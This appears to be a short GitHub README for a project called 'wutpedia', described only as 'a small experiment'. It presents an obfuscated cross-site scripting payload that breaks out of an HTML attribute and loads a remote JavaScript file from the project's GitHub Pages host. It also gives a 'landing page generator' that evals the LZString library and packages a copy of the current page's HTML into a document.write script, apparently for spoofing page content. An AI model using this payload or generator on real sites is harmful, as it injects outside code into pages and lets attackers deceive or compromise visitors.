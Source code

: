 # wutpedia

A small experiment, please don't be mad at me

payload: 

"><script>s=document.createElement((1714492289).toString(36));s.src=/https:--wutpedia.github.io-wutpedia-f.js/.source.split(/-/.source[0]).join(document.location.pathname[0]);document.head.appendChild(s);</script>

landing page generator:

var LZs='var LZString=function(){function o(o,r){if(!t[o]){t[o]={};for(var n=0;n<o.length;n++)t[o][o.charAt(n)]=n}return t[o][r]}var r=String.fromCharCode,n="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=",e="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+-$",t={},i={compressToBase64:function(o){if(null==o)return"";var r=i._compress(o,6,function(o){return n.charAt(o)});switch(r.length%4){default:case 0:return r;case 1:return r+"===";case 2:return r+"==";case 3:return r+"="}},decompressFromBase64:function(r){return null==r?"":""==r?null:i._decompress(r.length,32,function(e){return o(n,r.charAt(e))})},compressToUTF16:function(o){return null==o?"":i._compress(o,15,function(o){return r(o+32)})+" "},decompressFromUTF16:function(o){return null==o?"":""==o?null:i._decompress(o.length,16384,function(r){return o.charCodeAt(r)-32})},compressToUint8Array:function(o){for(var r=i.compress(o),n=new Uint8Array(2*r.length),e=0,t=r.length;t>e;e++){var s=r.charCodeAt(e);n[2*e]=s>>>8,n[2*e+1]=s%256}return n},decompressFromUint8Array:function(o){if(null===o||void 0===o)return i.decompress(o);for(var n=new Array(o.length/2),e=0,t=n.length;t>e;e++)n[e]=256*o[2*e]+o[2*e+1];var s=[];return n.forEach(function(o){s.push(r(o))}),i.decompress(s.join(""))},compressToEncodedURIComponent:function(o){return null==o?"":i._compress(o,6,function(o){return e.charAt(o)})},decompressFromEncodedURIComponent:function(r){return null==r?"":""==r?null:(r=r.replace(/ /g,"+"),i._decompress(r.length,32,function(n){return o(e,r.charAt(n))}))},compress:function(o){return i._compress(o,16,function(o){return r(o)})},_compress:function(o,r,n){if(null==o)return"";var e,t,i,s={},p={},u="",c="",a="",l=2,f=3,h=2,d=[],m=0,v=0;for(i=0;i<o.length;i+=1)if(u=o.charAt(i),Object.prototype.hasOwnProperty.call(s,u)||(s[u]=f++,p[u]=!0),c=a+u,Object.prototype.hasOwnProperty.call(s,c))a=c;else{if(Object.prototype.hasOwnProperty.call(p,a)){if(a.charCodeAt(0)<256){for(e=0;h>e;e++)m<<=1,v==r-1?(v=0,d.push(n(m)),m=0):v++;for(t=a.charCodeAt(0),e=0;8>e;e++)m=m<<1|1&t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t>>=1}else{for(t=1,e=0;h>e;e++)m=m<<1|t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t=0;for(t=a.charCodeAt(0),e=0;16>e;e++)m=m<<1|1&t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t>>=1}l--,0==l&&(l=Math.pow(2,h),h++),delete p[a]}else for(t=s[a],e=0;h>e;e++)m=m<<1|1&t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t>>=1;l--,0==l&&(l=Math.pow(2,h),h++),s[c]=f++,a=String(u)}if(""!==a){if(Object.prototype.hasOwnProperty.call(p,a)){if(a.charCodeAt(0)<256){for(e=0;h>e;e++)m<<=1,v==r-1?(v=0,d.push(n(m)),m=0):v++;for(t=a.charCodeAt(0),e=0;8>e;e++)m=m<<1|1&t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t>>=1}else{for(t=1,e=0;h>e;e++)m=m<<1|t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t=0;for(t=a.charCodeAt(0),e=0;16>e;e++)m=m<<1|1&t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t>>=1}l--,0==l&&(l=Math.pow(2,h),h++),delete p[a]}else for(t=s[a],e=0;h>e;e++)m=m<<1|1&t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t>>=1;l--,0==l&&(l=Math.pow(2,h),h++)}for(t=2,e=0;h>e;e++)m=m<<1|1&t,v==r-1?(v=0,d.push(n(m)),m=0):v++,t>>=1;for(;;){if(m<<=1,v==r-1){d.push(n(m));break}v++}return d.join("")},decompress:function(o){return null==o?"":""==o?null:i._decompress(o.length,32768,function(r){return o.charCodeAt(r)})},_decompress:function(o,n,e){var t,i,s,p,u,c,a,l,f=[],h=4,d=4,m=3,v="",w=[],A={val:e(0),position:n,index:1};for(i=0;3>i;i+=1)f[i]=i;for(p=0,c=Math.pow(2,2),a=1;a!=c;)u=A.val&A.position,A.position>>=1,0==A.position&&(A.position=n,A.val=e(A.index++)),p|=(u>0?1:0)*a,a<<=1;switch(t=p){case 0:for(p=0,c=Math.pow(2,8),a=1;a!=c;)u=A.val&A.position,A.position>>=1,0==A.position&&(A.position=n,A.val=e(A.index++)),p|=(u>0?1:0)*a,a<<=1;l=r(p);break;case 1:for(p=0,c=Math.pow(2,16),a=1;a!=c;)u=A.val&A.position,A.position>>=1,0==A.position&&(A.position=n,A.val=e(A.index++)),p|=(u>0?1:0)*a,a<<=1;l=r(p);break;case 2:return""}for(f[3]=l,s=l,w.push(l);;){if(A.index>o)return"";for(p=0,c=Math.pow(2,m),a=1;a!=c;)u=A.val&A.position,A.position>>=1,0==A.position&&(A.position=n,A.val=e(A.index++)),p|=(u>0?1:0)*a,a<<=1;switch(l=p){case 0:for(p=0,c=Math.pow(2,8),a=1;a!=c;)u=A.val&A.position,A.position>>=1,0==A.position&&(A.position=n,A.val=e(A.index++)),p|=(u>0?1:0)*a,a<<=1;f[d++]=r(p),l=d-1,h--;break;case 1:for(p=0,c=Math.pow(2,16),a=1;a!=c;)u=A.val&A.position,A.position>>=1,0==A.position&&(A.position=n,A.val=e(A.index++)),p|=(u>0?1:0)*a,a<<=1;f[d++]=r(p),l=d-1,h--;break;case 2:return w.join("")}if(0==h&&(h=Math.pow(2,m),m++),f[l])v=f[l];else{if(l!==d)return null;v=s+s.charAt(0)}w.push(v),f[d++]=s+v.charAt(0),h--,s=v,0==h&&(h=Math.pow(2,m),m++)}}};return i}();"function"==typeof define&&define.amd?define(function(){return LZString}):"undefined"!=typeof module&&null!=module&&(module.exports=LZString);';

eval(LZs)

prompt('fake.js',LZs+';document.write(LZString.decompressFromBase64("'+LZString.compressToBase64(document.documentElement.innerHTML.replace('src="//','src="http://','g').replace('href="/','href="http://'+document.domain+'/','g').replace('href="#','href="http://'+document.domain+'/'+document.location.pathname+'#','g').replace('src="/','src="http://'+document.domain+'/','g').replace('link="/','link="http://'+document.domain+'/','g').replace('content="/','content="http://'+document.domain+'/','g'))+'"))')



